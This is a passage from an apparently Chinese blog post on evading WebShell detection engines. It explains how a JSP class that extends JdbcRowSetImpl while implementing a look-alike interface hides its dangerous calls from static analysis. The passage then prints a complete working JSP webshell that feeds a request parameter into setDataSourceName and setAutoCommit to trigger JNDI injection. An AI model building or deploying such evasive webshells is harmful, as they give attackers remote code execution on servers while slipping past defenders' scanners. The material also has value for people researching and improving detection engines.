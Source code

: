   对于检测引擎来说，样本运行的是两个空的setDataSourceName和setAutoCommit方法。但实际上程序执行的还是JdbcRowSetImpl的方法，导致了绕过。
* 利用Java类的多态误导引擎识别对象类型

  如果存在如下接口：

  ```java
  interface A {
  		void setDataSourceName(String var1) throws SQLException;
  		void setAutoCommit(boolean autoCommit) throws SQLException;
  }
  ```

  如果我们创建一个类：

  ```java
  class B implements A{
  }
  ```

  这样毫无疑问会编译不通过，因为我们没有在B中对A接口的两个方法定义进行实现

   ![](/img/aiWebshell/21227952-31d0-4c11-98f7-bc88163e7475.png) ![](https://prod-files-secure.s3.us-west-2.amazonaws.com/a116b209-23ed-47e3-b176-d57fece98279/6ec7baba-b093-42e4-93cf-7df025c27be8/Untitled.png)

  但是如果此时我们把Class B修改成如下写法：

  ```java
  class B extends JdbcRowSetImpl implements A{
      }
  ```

  会发现编译可以通过。原因是java在编译的过程中是**先处理继承**，再**处理接口**。因此当我们的B类继承了JdbcRowSetImpl 类，再去实现A接口时，Java会从B及其父类方法中寻找实现方法。同时由于 Java类的多态，我们对实现类为 B 的 A 接口对象，调用其定义的 set\*方法时，它会调用 B 继承的 JdbcRowSetImpl 类中的对应方法。但是对于检测引擎来说，此时执行的是接口A的setDataSourceName和setAutoCommit方法。引擎很难获取到接口A会和JdbcRowSetImpl 类有什么关系。它顶多在接口A的实现类中寻找是否存在危险方法或调用，无论如何也找不到JdbcRowSetImpl的头上。因此也就无法判断该样本为WebShell。根据此方法进行WebShell构建：

  ```java
  <%@ page import="java.sql.SQLException" %>
  <%@ page import="com.sun.rowset.JdbcRowSetImpl" %>
  <%!
      interface A {
          void setDataSourceName(String var1) throws SQLException;
          void setAutoCommit(boolean autoCommit) throws SQLException;
      }
  %>
  <%
      class B extends JdbcRowSetImpl implements A{
      }
      A a = (A)new B();
      a.setDataSourceName(request.getParameter("url"));
      a.setAutoCommit(true);
  %>
  ```
* 隐式方法调用
